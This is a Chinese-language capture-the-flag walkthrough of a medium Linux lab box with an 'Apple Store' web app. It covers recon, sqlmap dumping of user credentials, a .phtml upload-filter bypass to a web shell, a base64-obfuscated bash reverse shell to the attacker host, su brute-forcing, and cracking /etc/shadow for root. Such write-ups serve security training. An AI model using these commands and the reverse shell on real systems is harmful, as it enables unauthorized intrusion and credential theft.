










## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali  
❯ nmap 172.17.0.2 -sV  -A
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-25 16:15 CST
Nmap scan report for 172.17.0.2
Host is up (0.000089s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apple Store
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.09 ms 172.17.0.2

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.98 seconds
```

## Dirsearch

```
[root@kali] /home/kali  
❯ dirsearch -u 172.17.0.2 -t 50 -i 200 
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                            
 (_||| _) (/_(_|| (_| )                                                                                                     
                                                                                                                            
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/reports/_172.17.0.2/_25-02-25_16-19-18.txt

Target: http://172.17.0.2/

[16:19:18] Starting:                                                                                                        
[16:19:35] 200 - 631B  - /login.php                                        
[16:19:41] 200 - 626B  - /register.php                                     
[16:19:47] 200 - 405B  - /uploads/                                         
[16:19:48] 200 - 0B  - /vendor/composer/autoload_static.php              
[16:19:48] 200 - 1KB - /vendor/composer/LICENSE                          
[16:19:48] 200 - 520B  - /vendor/                                          
[16:19:48] 200 - 0B  - /vendor/autoload.php                              
[16:19:48] 200 - 0B  - /vendor/composer/autoload_classmap.php
[16:19:48] 200 - 0B  - /vendor/composer/autoload_psr4.php                
[16:19:48] 200 - 0B  - /vendor/composer/ClassLoader.php
[16:19:48] 200 - 3KB - /vendor/composer/installed.json                   
[16:19:48] 200 - 0B  - /vendor/composer/autoload_namespaces.php          
[16:19:48] 200 - 0B  - /vendor/composer/autoload_real.php                
                                                                             
Task Completed       
```

可以看到存在**uploads**目录

## SQL Injection

进入之后随意注册一个账号，进入到**mycart**



可以看到存在**SQL注入**漏洞



```
[root@kali] /home/kali  
❯ sqlmap -u "http://172.17.0.2/mycart.php?search=1" --cookie "PHPSESSID=uv694pbom64dihteq9e6v2s5c0" -p search -D apple_store -T users --dump
```



可以直接破解

```
luisillo:mundodecaramelo
admin:0844575632
```

## www-data

使用**admin**的账户进入到后台



来到**Settings**界面，可以上传一个文件，这里对文件名后缀有检查，使用**phtml**可以绕过



访问**/uploads/shell.phtml**即可执行命令



```
cmd=echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzEwMCAwPiYx" |base64 -d |bash
```



## User luisillo\_o

这里我检查了**linpeas**和**pspy**的输出，都没有可以利用的点。

数据库中的密码无法登录到**luisillo\_o**，只能尝试爆破用户的密码。

由于外部并没有开启**22**端口，只能内部爆破。需要使用到**suForce**和**rockyou.txt**

- [d4t4s3c/suForce: Obtain a user's system password, this tool uses the su binary to perform a brute force attack until a successful collision occurs.](https://github.com/d4t4s3c/suForce)



## Root

发现**luisillo**可以查看**shadow**文件



破解得到**root**的密码：**rainbow2**



## Summary

`www-data`：比较简单的**SQL**注入得到后台账户密码，然后文件上传绕过**php**后缀名检测。

`User`：没有特殊权限的命令或者文件，也没有定时任务之类的，只能是爆破用户密码，当然这是下策。

`Root`：读取**/etc/shadow**文件进行破解。
